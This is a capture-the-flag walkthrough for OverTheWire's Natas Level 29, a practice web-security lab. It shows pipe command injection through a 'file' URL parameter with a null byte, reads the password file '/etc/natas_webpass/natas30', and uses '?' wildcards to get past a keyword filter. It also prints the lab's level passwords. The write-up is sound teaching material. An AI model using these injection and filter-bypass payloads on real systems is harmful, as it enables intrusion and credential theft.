 # Natas CTF Solutions  

## Natas Level 29  

### 🌐 **Challenge Description**  
Natas teaches the basics of server-side web security. Each level consists of a website located at:  
👉 `http://natasX.natas.labs.overthewire.org` (where **X** is the level number).  

---

### 🎯 **Goal**  
- Exploit **null byte injection** and **command injection** to read the password file for the next level.  

---

## 🚀 **Solution**  

### **Step 1: Open the URL**  
Visit:  
```  
http://natas29.natas.labs.overthewire.org  
```  

---

### **Step 2: Enter Login Credentials**  
- **Username:** `natas29`  
- **Password:** Use the password from Natas Level 28:  
```
31F4j3Qi2PnuhIZQokxXk1L3QT9Cppns
```  

![image](https://github.com/user-attachments/assets/e1a65c89-f557-4810-a37c-f89956e6209d)

---

### **Step 3: Command Injection Attempt**  
1. The challenge accepts a `file` parameter that can be used for command injection.  
2. First, test for command injection using:  
```  
http://natas29.natas.labs.overthewire.org/index.pl?file=|ls%00  
```  
- The `|ls` part executes the `ls` command.  
- `%00` is a **null byte** used to terminate the string, which helps bypass input validation.  

✅ **Success:** It lists the contents of the directory:  
```
index.pl
```  

![image](https://github.com/user-attachments/assets/8ec3c5b2-4a1a-4ce7-935d-f634f3a3fac8)

---

### **Step 4: Extract the Password**  
1. Next, try reading the password file:  
```  
|cat /etc/natas_webpass/natas30  
```  
2. This command will fail due to input filtering, returning:  
```
meep!
```  

![image](https://github.com/user-attachments/assets/8315903a-1572-4d88-ac81-7507d2295130)

✅ **Why?**  
- The filtering mechanism likely blocks the keyword **"natas."**  

---

### **Step 5: Bypass Filtering with Wildcards**  
Instead of using `natas`, use the `?` wildcard:  
- `?` matches a single character — bypassing the filter.  

```  
|cat /etc/n?tas_webpass/n?tas30 %00  
```  

✅ **Success:** This prints the password for the next level!  

![Password](https://github.com/user-attachments/assets/160b7c78-393f-4662-ba24-61fbe5348464)

---

### **✅ Password for Natas Level 30**  
```
WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH
```

---

## 💡 **Lessons Learned**  
✔️ **Command Injection:** Injecting shell commands via URL parameters.  
✔️ **Null Byte Injection:** `%00` can terminate strings and bypass input validation.  
✔️ **Wildcard Injection:** `?` wildcard bypasses keyword filters.  
✔️ **Input Sanitization:** Always sanitize and validate user inputs to prevent command execution.  

---

## 🖼️ **Screenshots**  
| Step | Screenshot |  
|------|------------|  
| Step 3 – Command Injection | ![image](https://github.com/user-attachments/assets/8ec3c5b2-4a1a-4ce7-935d-f634f3a3fac8) |  
| Step 5 – Bypass Filtering | ![Password](https://github.com/user-attachments/assets/160b7c78-393f-4662-ba24-61fbe5348464) |  

---

## 🎯 **Next Level**  
Use the password to access **Natas Level 30**:  
👉 [http://natas30.natas.labs.overthewire.org](http://natas30.natas.labs.overthewire.org)  

---

